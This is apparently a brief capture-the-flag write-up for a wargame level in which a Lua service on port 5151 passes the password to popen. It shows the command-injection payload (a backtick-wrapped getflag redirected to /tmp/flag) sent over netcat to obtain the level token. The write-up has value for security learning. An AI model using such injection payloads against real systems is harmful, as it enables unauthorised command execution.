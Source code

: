 # Level 09 Vulnerability Exploit Documentation

## Observations
a .lua file gave a hint about a possible vulnerability.
a server is running on port 5151 when we request it it ask a password 
```bash
nc localhost 5151
password: 
```

## Exploitation Steps
after checking the file level11.lua we found that the password is being hached then checked with "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0"

anyway in both cases nothing hapend.

the code contain a function hash(pass), which is using popen to execute system's command , this the vulnerability we are looking for.

we pass the `getflag` as argument then it will be executed by echo redirecting the output to /tmp/flag

```bash 
>$ nc localhost 5151
password: `getflag` > /tmp/flag
>$ cat /tmp/flag
Check flag.Here is your token : xxxxxxxxx
```

